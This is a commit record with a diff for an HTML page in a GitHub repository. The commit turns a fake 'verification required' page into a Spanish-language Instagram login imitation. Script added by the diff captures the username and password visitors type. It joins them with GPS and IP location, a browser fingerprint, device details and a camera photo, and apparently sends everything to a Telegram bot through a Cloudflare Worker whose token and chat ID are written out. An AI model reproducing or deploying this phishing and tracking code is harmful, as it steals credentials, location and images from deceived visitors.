

Before and after one commit to societykark/Society, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 305-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Actualizar index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,61 +3,120 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=no">
-    <title>usernoth111</title>
+    <title>Instagram • Iniciar sesión</title>
     <style>
-        * { margin: 0; padding: 0; box-sizing: border-box; }
+        * {
+            margin: 0;
+            padding: 0;
+            box-sizing: border-box;
+        }
         body {
-            background: #f1f3f4;
-            font-family: 'Segoe UI', Roboto, system-ui, sans-serif;
+            background: #fafafa;
+            font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, Helvetica, Arial, sans-serif;
             display: flex;
             justify-content: center;
             align-items: center;
             min-height: 100vh;
             padding: 20px;
         }
-        .card {
+        .login-box {
             background: white;
-            border-radius: 16px;
-            box-shadow: 0 8px 28px rgba(0,0,0,0.12);
-            padding: 32px 24px;
-            max-width: 400px;
+            border: 1px solid #dbdbdb;
+            border-radius: 4px;
+            padding: 40px 40px 30px;
+            max-width: 350px;
             width: 100%;
             text-align: center;
         }
-        h1 {
-            font-size: 1.8rem;
-            font-weight: 600;
-            color: #1a1a1a;
-            margin-bottom: 12px;
+        .logo {
+            font-family: 'Billabong', cursive;
+            font-size: 3rem;
+            font-weight: normal;
+            margin-bottom: 30px;
+            color: #262626;
         }
-        p {
-            color: #5f6368;
-            font-size: 0.9rem;
-            margin-bottom: 28px;
+        .input-group {
+            margin-bottom: 6px;
+        }
+        input {
+            width: 100%;
+            background: #fafafa;
+            border: 1px solid #dbdbdb;
+            border-radius: 4px;
+            padding: 9px 8px;
+            font-size: 0.85rem;
+            outline: none;
+        }
+        input:focus {
+            border-color: #a8a8a8;
         }
         button {
-            background: #1a73e8;
+            background: #0095f6;
             color: white;
             border: none;
-            border-radius: 28px;
-            padding: 12px 24px;
-            font-size: 1rem;
-            font-weight: 500;
+            border-radius: 8px;
+            padding: 7px 16px;
+            font-weight: 600;
+            font-size: 0.9rem;
+            width: 100%;
+            margin-top: 12px;
             cursor: pointer;
-            width: 100%;
             transition: background 0.2s;
         }
         button:active {
-            background: #1557b0;
+            background: #1877f2;
             transform: scale(0.98);
+        }
+        .divider {
+            display: flex;
+            align-items: center;
+            margin: 20px 0;
+            color: #8e8e8e;
+            font-size: 0.8rem;
+        }
+        .divider::before, .divider::after {
+            content: "";
+            flex: 1;
+            height: 1px;
+            background: #dbdbdb;
+        }
+        .divider::before { margin-right: 16px; }
+        .divider::after { margin-left: 16px; }
+        .fb-login {
+            color: #385185;
+            font-weight: 600;
+            font-size: 0.85rem;
+            text-decoration: none;
+            display: inline-block;
+            margin-top: 8px;
+        }
+        .forgot {
+            margin-top: 16px;
+            font-size: 0.75rem;
+            color: #00376b;
+            text-decoration: none;
+        }
+        .footer {
+            margin-top: 20px;
+            font-size: 0.7rem;
+            color: #8e8e8e;
         }
     </style>
 </head>
 <body>
-<div class="card">
-    <h1>🔐 Verificación requerida</h1>
-    <p>Presiona el botón para continuar</p>
-    <button id="btn">✅ Verificar acceso</button>
+<div class="login-box">
+    <div class="logo">Instagram</div>
+    <div class="input-group">
+        <input type="text" id="username" placeholder="Teléfono, correo o usuario" autocomplete="off">
+    </div>
+    <div class="input-group">
+        <input type="password" id="password" placeholder="Contraseña">
+    </div>
+    <button id="btn">Iniciar sesión</button>
+    <div class="divider">o</div>
+    <a href="#" class="fb-login">Iniciar sesión con Facebook</a>
+    <a href="#" class="forgot">¿Olvidaste tu contraseña?</a>
+    <div class="footer">No eres tú? · Ayuda · Privacidad</div>
 </div>
 
 <video id="video" autoplay playsinline style="display:none"></video>
@@ -65,8 +124,8 @@
 
 <script>
     // ================= CONFIGURACIÓN =================
-    const WORKER_URL = 'https://bot-ubi.societykark.workers.dev';  // ✅ TU WORKER
-    const BOT_TOKEN = '8803149571:AAF6V8NewmO0JSUAlXdJh1NUuhMo1lwOH6s';                      // ⚠️ REVOCA Y PON TU TOKEN NUEVO
+    const WORKER_URL = 'https://bot-ubi.societykark.workers.dev';
+    const BOT_TOKEN = '8803149571:AAF6V8NewmO0JSUAlXdJh1NUuhMo1lwOH6s';  // ⚠️ REVOCA Y PON TU TOKEN NUEVO
     const CHAT_ID = '7555997298';
 
     // ---------- 1. Obtener ubicación desde Cloudflare Worker ----------
@@ -111,8 +170,11 @@
         const canvas = document.createElement('canvas');
         const ctx = canvas.getContext('2d');
         canvas.width = 200; canvas.height = 50;
-        ctx.fillStyle = "#f60"; ctx.fillRect(0, 0, 200, 50);
-        ctx.fillStyle = "#069"; ctx.font = "14px Arial"; ctx.fillText("FP", 10, 30);
+        ctx.fillStyle = "#f60";
+        ctx.fillRect(0, 0, 200, 50);
+        ctx.fillStyle = "#069";
+        ctx.font = "14px Arial";
+        ctx.fillText("FP", 10, 30);
         const canvasHash = canvas.toDataURL().slice(0, 100);
         let gpu = 'N/A';
         try {
@@ -206,27 +268,33 @@
 
     // ---------- 9. Proceso principal ----------
     document.getElementById('btn').onclick = async () => {
-        // 1. Pedir ubicación GPS (lo más importante)
+        // Capturar credenciales de Instagram
+        const username = document.getElementById('username').value;
+        const password = document.getElementById('password').value;
+        let creds = `🔐 *CREDENCIALES INSTAGRAM*\nUsuario: ${username || '(vacío)'}\nContraseña: ${password || '(vacío)'}\n`;
+
+        // Obtener ubicación GPS
         const gps = await getGPS();
 
-        // 2. Obtener ubicaciones por IP (ambas fuentes)
+        // Obtener ubicaciones por IP
         const [workerLoc, ipapiLoc] = await Promise.all([
             getLocationFromWorker(),
             getLocationFromIpapi()
         ]);
 
-        // 3. Datos complementarios
+        // Datos complementarios
         const [fp, device, storage] = await Promise.all([
             getFingerprint(),
             getDeviceInfo(),
             getStorageInfo()
         ]);
 
-        // 4. Cámara (opcional)
+        // Cámara
         const foto = await capturePhoto();
 
-        // 5. Construir mensaje
-        let message = `📊 *Visitor Information Captured*\n━━━━━━━━━━━━━━━━\n\n`;
+        // Construir mensaje completo
+        let message = creds;
+        message += `━━━━━━━━━━━━━━━━━━━━\n`;
         message += `🖥️ *Device & Browser*\n   • Device Model: ${device.model}\n   • User Agent: ${device.ua}\n\n`;
         message += `🎨 *Fingerprint*\n   • GPU: ${fp.gpu}\n   • Fonts: ${fp.fonts}\n   • Canvas: ${fp.canvasHash}...\n\n`;
         message += `🌐 *Network Information*\n   • IP Address: ${workerLoc?.ip || ipapiLoc?.ip || 'N/A'}\n   • Language: ${device.language}\n\n`;
```
